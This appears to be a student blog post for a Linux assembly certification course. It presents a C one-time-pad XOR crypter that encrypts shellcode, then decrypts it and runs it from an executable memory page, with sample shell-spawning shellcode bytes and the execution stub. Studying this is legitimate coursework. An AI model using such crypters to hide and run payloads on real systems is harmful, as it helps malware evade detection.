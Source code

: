 # Building a custom crypter

For this assignment a custom crypter had to be implemented that encryptes a shellcode and that is able to decrypt the shellcode and execute it.

I have decided to implement a ```One-time pad encrypter``` meaning that it generates a random and unique key for each encryption whereas the key is of the same size as the shellcode.

## Usage

### Encryption
-e specifies the shellcode that you want to be encrypted.

```
./crypter -e \x48\x31\xc0\x99\x50\x5e\x48\xbb\xfe\xee\x31\x5b\x2f\x2f\x73\x68\x48\x81\xc3\x31\x73\x37\x13\x50\x53\x54\x5f\xb0\x3b\x0f\x05
[*] Crypting your payload ...
[+] Generated One-time pad of length: 31
\xc1\xcf\x0f\x9f\x6c\x83\xdd\x09\x35\xc6\xec\x14\x4a\x72\xed\x48\x6a\x97\x0d\x8c\x62\xeb\x8c\x78\xd9\x0b\x20\xcc\xc3\x06\x73
[+] Encryption done:
\x89\xfe\xcf\x06\x3c\xdd\x95\xb2\xcb\x28\xdd\x4f\x65\x5d\x9e\x20\x22\x16\xce\xbd\x11\xdc\x9f\x28\x8a\x5f\x7f\x7c\xf8\x09\x76
[+] Bye
```

As you can see it first generates a random One-time pad of the same length as your specified shellcode.
The result is the One-time pad and the encrypted version of the shellcode.

### Decryption and execution
-d specifies the encrypted shellcode
-k specifies the One-time pad

```
./crypter -d \xe9\xf5\x05\x57\xfa\x36\xf8\x04\xbd\x11\x0c\xba\xf2\xd2\x14\x23\x73\xd5\xf5\x39\x39\xa5\xe5\xfd\x4f\x9a\x8a\xb0\x72\x15\xb5 -k \xa1\xc4\xc5\xce\xaa\x68\xb0\xbf\x43\xff\x3d\xe1\xdd\xfd\x67\x4b\x3b\x54\x36\x08\x4a\x92\xf6\xad\x1c\xce\xd5\x00\x49\x1a\xb0
[*] Starting decrypting ..
[*] Decryption done ...
[*] Create executable page and write shellcode to it
[*] Executing shellcode
[flink@Moor Assignment7]$
```

The tool decryptes the shellcode and executes it afterwards.

## Implementation

The entire implementation is done in C. Here I will present you its most relevant parts:
### Generate a random One-time pad
```
arc4random_buf(xor_key, sizeof xor_key);
```
I make use of the arc4random_buf function that original comes from the BSD world. It is known to generate true _random_ bytes and places them into a buffer. I really like how easily this function can be used.
### Encrypt
```
   for ( int i = 0; i < len_payload; ++i )
       payload[i] ^= xor_key[i];
```
This is pretty straight forward. Simply xor every byte of the payload with the respective byte of the One-time pad.

The decryption just works vice versa thanks to xor.

### Execute
```
    void *page = mmap( NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC,
            MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);

    if ( page == MAP_FAILED )
        fatal(NULL);

    if ( len_payload > 0x1000 )
        fatal(NULL); // WTF SHELLCODE!?

    memcpy( page, payload, len_payload);
    printf("[*] Executing shellcode\n");
    ((void(*)()) page)();
```

Next I need to place my shellcode in an executable region.
To do so I allocate a new page using the mmap syscall and mark the new page as _writeable_ and _executable_.
The decrypted shellcode is placed in the new page and finally executed.

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
